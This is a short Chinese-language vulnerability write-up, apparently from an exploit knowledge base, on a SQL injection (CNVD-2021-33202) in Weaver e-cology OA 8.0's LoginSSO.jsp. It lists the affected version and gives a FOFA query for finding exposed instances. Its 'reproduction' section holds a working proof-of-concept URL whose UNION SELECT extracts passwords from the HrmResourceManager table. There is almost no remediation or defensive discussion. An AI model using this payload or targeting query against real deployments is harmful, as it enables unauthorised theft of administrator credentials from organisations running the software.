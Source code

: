 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184449317.png)

验证POC

```php
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![img](../../../.vuepress/public/img/1636962109612-27c439fe-00a4-4d90-89ca-737b2ce98400.png)